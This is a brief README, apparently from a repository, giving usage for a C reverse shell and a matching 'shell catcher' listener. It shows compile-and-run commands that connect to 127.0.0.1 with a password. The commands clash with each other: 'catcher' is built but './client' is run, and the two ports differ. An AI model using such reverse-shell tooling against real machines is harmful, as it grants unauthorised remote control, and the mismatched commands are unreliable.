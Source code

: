 # Useage

## Reverse Shell
```
gcc -o rev.bin reverse-shell.c
./rev.bin 127.0.0.1 58009 mysecretpassword
```

## Shell Catcher
```
gcc -o catcher ./catcher.c
./client 58008 mysecretpassword 
```
